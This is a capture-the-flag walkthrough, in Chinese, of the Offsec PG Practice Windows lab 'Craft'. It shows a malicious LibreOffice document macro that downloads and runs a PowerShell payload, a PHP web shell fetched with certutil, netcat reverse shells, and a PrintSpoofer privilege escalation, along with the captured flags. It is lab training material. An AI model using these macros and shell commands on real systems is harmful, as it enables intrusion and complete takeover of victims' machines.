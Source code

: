 ###### tags: `Offsec` `PG Practice` `Intermediate` `Windows`

# Craft
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rustscan -a 192.168.218.169 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 192.168.176.169:80

PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
|_http-server-header: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/8.0.7
|_http-title: Craft
```

他需要上傳`.odt`檔，先安裝`libreoffice`
> 參考
https://0xdf.gitlab.io/2020/02/01/htb-re.html?source=post_page-----c92de878e004--------------------------------
```
┌──(kali㉿kali)-[~/pgplay]
└─$ sudo apt-get install libreoffice 

┌──(kali㉿kali)-[~/pgplay]
└─$ libreoffice
```

選`Writer Document -> Tools -> Macros -> Organize Macros -> Basic -> macro from最下面的文件 -> New -> 取名evil`，參考他的指令
```
Sub Main

    Shell("cmd /c powershell ""iex(new-object net.webclient).downloadstring('http://192.168.45.184/oneliner.ps1')""")
    
End Sub
```

儲存之後，開啟`Tools -> Customize -> Open Document -> Macro -> 選剛剛的evil`

![Craft_1.png](picture/Craft_1.png)

存檔退出，開啟nc，上傳.odt檔等回彈，可在`C:\Users\thecybergeek\Desktop`得到local.txt
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rlwrap -cAr nc -nvlp9001

PS C:\Users\thecybergeek\Desktop> type local.txt
a5bcba022f6a299797c980ddb6de283d
```

在`C:\xampp\htdocs`路徑可看到php的檔案，可以試試看上傳php的reverseshell，發現不行，感覺要跟上面一樣的方式進行(ps1檔)，先上傳簡單的shell，再上傳`oneliner.ps1`，再以cmd執行
```
PS C:\xampp\htdocs> certutil.exe -urlcache -f http://192.168.45.184/s.php s.php

http://192.168.176.169/s.php?cmd=whoami
craft\apache

192.168.176.169/s.php?cmd=certutil.exe -urlcache -f http://192.168.45.184/oneliner.ps1 oneliner.ps1

┌──(kali㉿kali)-[~/pgplay]
└─$ rlwrap -cAr nc -nvlp9002

192.168.176.169/s.php?cmd=cmd /c powershell -c C:/xampp/htdocs/oneliner.ps1
```

確認反彈查看`whoami /priv`可使用`printspoofer`
```
PS C:\> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeTcbPrivilege                Act as part of the operating system       Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

┌──(kali㉿kali)-[~/pgplay]
└─$ rlwrap -cAr nc -nvlp9003

PS C:\Users\Public\Documents> certutil.exe -urlcache -f http://192.168.45.184/PrintSpoofer64.exe PrintSpoofer.exe

PS C:\Users\Public\Documents> certutil.exe -urlcache -f http://192.168.45.184/nc.exe nc.exe

PS C:\Users\Public\Documents> ./PrintSpoofer.exe -i -c "C:\Users\Public\Documents\nc.exe 192.168.45.184 9003 -e cmd"
```

等反彈可在`C:\Users\Administrator\Desktop`得proof.txt
```
C:\Users\Administrator\Desktop>type proof.txt
724027d57a6610494dcb82d9880c1705
```